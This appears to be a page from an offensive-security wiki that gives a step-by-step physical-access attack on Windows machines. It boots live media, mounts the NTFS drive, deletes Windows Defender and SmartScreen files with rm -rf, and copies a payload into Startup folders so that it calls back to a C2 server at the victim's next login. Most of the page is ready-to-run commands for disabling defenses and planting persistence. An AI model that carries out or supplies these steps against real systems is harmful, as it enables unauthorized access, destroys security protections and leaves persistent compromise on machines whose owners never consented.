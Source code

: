 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - physical-pentesting
  - defense-evasion
  - maintaining-access
  - persistence
  - windows
  - linux
credits:
  - tokyoneon
---
```

# Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Disable Security Defenses (Optional)

### 3.1 - Windows Security

```
# find /mnt/ -type d -iname *Windows\ Defender*
```

Delete security endpoints.

```
# find /mnt/ -type d -iname *Windows\ Defender* -exec rm -rf {} \;
```

### 3.2 - Smartscreen

Delete `smartscreen.exe`.

```
# find /mnt/ -iname smartscreen.exe -exec rm -rf {} \;
```

### 3.3 - Third Party Endpoints

Refer to the **Wiki Backlinks** to bypass third party endpoints.

## 04 - Copy Payload to Startup

### 4.1 - All Users

```
# cp payload.exe "/mnt/<windows_volume_name>/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
```

### 4.2 - Specific User

Enumerate the available users.

```
# ls /mnt
```

Then copy the payload to startup directory.

```
# cp payload.exe "/mnt/<windows_volume_name>/Users/<username>/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
```

## 05 - Unmount the NTFS Drive

After you've dropped the payload in the target's machine. Wait for the target to login to their machine to receive an established connection to your C2.

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Microsoft/Endpoints/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Third Party Endpoints/Living off the Land]]

### Null Byte

- [Null Byte: Hacking Windows 10 - How to Break into Somebody's Computer Without a Password (Exploiting the System)](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743)